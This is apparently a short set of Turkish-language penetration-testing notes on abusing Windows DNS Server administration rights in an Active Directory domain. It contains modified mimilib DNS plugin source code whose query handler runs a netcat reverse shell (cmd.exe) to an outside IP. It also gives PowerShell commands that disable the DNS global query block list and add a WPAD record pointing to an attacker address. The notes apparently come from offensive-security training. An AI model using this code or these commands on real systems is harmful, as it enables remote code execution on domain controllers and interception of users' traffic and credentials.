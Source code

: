 

## **Mimilib.dll kullanarak** (system kısmı düzenle)

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("nc 10.10.10.10 9999 -e cmd.exe");
	}
	return ERROR_SUCCESS;
}
```


### **Global Sorgu Blok Listesini Devre Dışı Bırakma**

```powershell-session
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```


### **WPAD Record'u Ekleme**

```powershell-session
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
